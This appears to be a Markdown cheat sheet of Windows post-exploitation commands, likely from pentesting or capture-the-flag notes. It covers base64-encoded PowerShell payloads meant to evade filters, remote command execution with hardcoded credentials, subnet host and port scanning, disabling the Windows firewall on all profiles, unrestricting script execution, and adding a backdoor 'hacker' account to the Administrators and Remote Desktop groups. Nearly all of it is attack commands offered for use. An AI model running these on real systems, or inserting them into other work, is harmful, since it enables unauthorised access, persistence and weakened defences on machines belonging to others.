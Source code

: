 ```yaml
---
icon: code-square
---
```


# Windows Tricks

## PowerShell encoded base64
Create a base64 payload to avoid bad characters.
```bash
# Create the command to PowerShell execute
$ echo -n 'ping -n 2 10.10.14.2' | iconv -t utf-16le | base64
cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

# Run PowerShell Encoded
Payload: cmd /c powershell -enc cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

```

## Run command as User (with creds)

```powershell
$pass = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("disco\\Alice", $pass)

Invoke-Command -ComputerName disco -Credential $cred -ScriptBlock {whoami}
```

## List running process with args

```powershell
WMIC path win32_process get Caption,Processid,Commandline
```

## Scan for hosts and open ports in subnet

```bash
# Scan for Hosts in Subnet
PS > 1..254 | ForEach-Object {Test-Connection -ComputerName "172.16.2.$_" -Count 1 -ErrorAction SilentlyContinue}

# Scan for open Ports
PS > 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.2.101",$)) "Port $ is open!"} 2>$null
```

## **PowerShell**

```powershell
# **PowerShell Directory**
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

# FIX THE VARIABLE PATH
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

## Search for files

```powershell
Get-Childitem –Path C:\ -Include *filetosearch* -Recurse -ErrorAction SilentlyContinue
```

## Firewall Disable

```powershell
NetSh Advfirewall set allprofiles state off
```

## **Can not run scripts?** Enable it!

```powershell
Set-ExecutionPolicy Unrestricted
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

## Add a RDP user

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```
